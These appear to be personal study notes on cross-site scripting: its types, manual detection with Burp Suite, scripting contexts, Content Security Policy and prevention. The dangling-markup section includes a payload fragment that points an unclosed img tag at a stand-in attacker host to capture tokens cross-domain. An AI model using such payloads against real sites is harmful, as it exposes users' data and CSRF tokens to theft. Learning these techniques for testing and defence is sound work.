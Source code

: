 # XSS
What is it?
* Attacker compromises interactions user has with vulnerable application
* Circumvent same origin policy designed to segregate different websites
* Manipulate vulnerable website so it return malicious JS to users

Detection
* Burp Suite's web vulnerability scanner
* Manually:
	* Test all entry points (URL parameters, HTTP headers)
	* Submit random alphanumeric values (8 chars, use Burp Intruder’s number payload) (Burp Intruder grep payload options to flag responses with that value)
	* Find location of reflection
	* Test out some payloads in Burp Repeater
	* Test in browser (just something simple like an alert)
	
Types
* Reflected: script comes from current HTTP request
* Stored: script comes from website’s DB
* DOM-Based: vulnerability in client-side code rather than server-side

* Difference between Reflected and Stored: Stored is more serious from a security perspective.

Scripting Contexts
* Especially relevant for reflected and stored
* Between HTML tags
* In HTML Tag attributes

Content Security Policy
* CSP is a browser mechanism that aims to mitigate the impact of CSS and other vulns
* Can often be circumvented often.

Dangling Markup Injection
* Used to capture data cross-domain when full XSS exploit impossible
   	* Often due to input filters
* Can capture sensitive info (including CSRF, which can be used to perform unauthorised actions on a users behalf)
* It's when you enter an unclosed tag, like:
   	* "><img src='//attacker-website.com?        

Prevention
* Filter/validate input on arrival
* Encode data on output => HTML, URL, JS and CSS encoding
* Use appropriate response headers
   	* Use content-type and X-content-type-options headers to ensure browsers interpret responses the way you intend
   	* CSP
* Whitelisting vs Blocklisting
   	* Input validation should use whitelisting
   	* Only enable safe protocols and block everything else.
* https://portswigger.net/web-security/cross-site-scripting/preventing

